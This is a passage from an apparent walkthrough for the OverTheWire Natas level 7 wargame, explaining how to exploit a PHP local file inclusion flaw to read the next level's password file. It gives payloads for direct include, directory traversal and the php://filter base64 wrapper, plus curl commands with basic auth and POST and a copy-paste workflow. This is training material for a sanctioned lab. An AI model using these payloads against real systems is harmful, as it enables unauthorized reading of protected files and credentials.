 http://HOST/?page=php://filter/convert.base64-encode/resource=/etc/natas_webpass/natas8

If result looks like random letters, copy it and decode with a base64 decoder.

To decode on your computer:
echo "BASE64TEXT" | base64 --decode
Replace BASE64TEXT with the long string you got.

## 4) Use curl if site needs basic auth or for quick testing
If you need to supply the current level username and password (for example natas7:CURRENT_PASSWORD) use:
curl -s -u natas7:CURRENT_PASSWORD "http://HOST/?page=/etc/natas_webpass/natas8"

This prints the page output. If you used php://filter above and got base64, decode it using the echo | base64 --decode command shown earlier.

## 5) POST forms (sometimes the parameter is in POST, not GET)
If the site uses a form that posts page or file, try:
curl -s -u natas7:CURRENT_PASSWORD -d "page=/etc/natas_webpass/natas8" "http://HOST/vulnerable.php"

# Quick comparison table

| Problem you see | Try this first | Why |
|---|---|---|
| Page shows the file content | ?page=/etc/natas_webpass/natas8 | Direct include works |
| Nothing / error / file not found | ?page=../../../../etc/natas_webpass/natas8 | Use directory traversal |
| Page shows weird binary or code executed | ?page=php://filter/convert.base64-encode/resource=/etc/natas_webpass/natas8 | Forces file to be returned as base64 text |
| Requires login or hidden behind auth | curl -u natas7:CURRENT_PASSWORD "http://HOST/?page=..." | Sends credentials automatically |
| Form uses POST | curl -d "page=/etc/natas_webpass/natas8" "http://HOST/..." | Sends parameter in POST instead of GET |

# Example full workflow (copy-paste friendly)

1. Try direct include:
http://natas7.natas.labs.overthewire.org/?page=/etc/natas_webpass/natas8

2. If not visible, try traversal:
http://natas7.natas.labs.overthewire.org/?page=../../../../etc/natas_webpass/natas8

3. If still not working, try php filter:
http://natas7.natas.labs.overthewire.org/?page=php://filter/convert.base64-encode/resource=/etc/natas_webpass/natas8

4. If it returns base64 text, decode locally:
echo "PASTE_BASE64_TEXT_HERE" | base64 --decode

5. If site needs basic auth (replace CURRENT_PASSWORD):
curl -s -u natas7:CURRENT_PASSWORD "http://natas7.natas.labs.overthewire.org/?page=/etc/natas_webpass/natas8"
